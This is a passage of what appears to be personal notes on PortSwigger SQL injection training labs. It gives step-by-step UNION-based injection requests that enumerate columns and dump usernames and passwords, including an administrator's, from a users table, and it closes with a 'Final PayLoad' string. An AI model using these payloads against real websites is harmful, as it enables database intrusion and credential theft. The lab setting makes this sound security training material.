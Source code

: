 Hint: You can find some useful payloads on our SQL injection cheat sheet.


1. determine how many coloumns are in the current table:
> GET /filter?category=Pets'+UNION+SELECT+NULL,+NULL+FROM+information_schema.tables-- HTTP/1.1
> HTTP/1.1 200 OK

2. determine how many of them support stroing values:
**request1**
> GET /filter?category=Pets'+UNION+SELECT+'test',+NULL+FROM+information_schema.tables-- HTTP/1.1
response:
> HTTP/1.1 500 Internal Server Error

**request2**
> GET /filter?category=Pets'+UNION+SELECT+NULL,+'test'+FROM+information_schema.tables-- HTTP/1.1
response:
> HTTP/1.1 200 OK
only the second value supports string. 

3. exfiltrate usernames and passwords via the second field only
> GET /filter?category='+UNION+SELECT+NULL,+username||'+:::+'||password+FROM+users-- HTTP/1.1
```htm
HTTP/1.1 200 OK
<tr>
    <th>wiener ::: w9s85w2tzrnwu09dmuo5</th>
</tr>
<tr>
    <th>administrator ::: kjkk36tdibdxgjvrebdd</th>
</tr>
<tr>
    <th>carlos ::: rmnedciwjzzig72rrw35</th>
</tr>
```

**Final PayLoad**
'+UNION+SELECT+NULL,+username||'+:::+'||password+FROM+users--

4. login to administrator account to solve the lab


(from previous topic:)

#
# [***3. Lab: SQL injection with filter bypass via XML encoding***](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)



This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a *UNION attack* to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account. 
